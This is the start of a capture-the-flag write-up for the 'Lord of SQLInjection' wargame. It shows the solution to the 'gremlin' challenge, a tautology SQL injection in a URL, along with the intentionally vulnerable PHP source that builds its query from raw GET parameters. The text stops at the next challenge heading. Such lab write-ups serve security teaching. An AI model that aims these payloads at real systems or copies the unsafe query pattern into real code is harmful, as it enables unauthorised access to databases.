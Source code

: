# LORD OF SQLINJECTION Write-ups

## Index

1. [gremlin](#gremlin)

2. [cobolt](#cobolt)

3. [goblin](#goblin)

4. [orc](#orc)

5. [wolfman](#wolfman)

6. [darkelf](#darkelf)

7. [orge](#orge)

8. [troll](#troll)

9. [vampire](#vampire)

10. [skeleton](#skeleton)

11. [golem](#golem)

12. [darkknight](#darkknight)


## gremlin

Link solve chall: https://los.rubiya.kr/chall/gremlin_280c5552de8b681110e9287421b834fd.php?id=%27%20or%201=1--%20-&pw=abcxyz

```
query : select id from prob_gremlin where id='' or 1=1-- -' and pw='abcxyz'

GREMLIN Clear!
http://www.wechall.net
<?php
  include "./config.php";
  login_chk();
  $db = dbconnect();
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[id])) exit("No Hack ~_~"); // do not try to attack another table, database!
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~");
  $query = "select id from prob_gremlin where id='{$_GET[id]}' and pw='{$_GET[pw]}'";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $result = @mysqli_fetch_array(mysqli_query($db,$query));
  if($result['id']) solve("gremlin");
  highlight_file(__FILE__);
?>
```

## cobolt
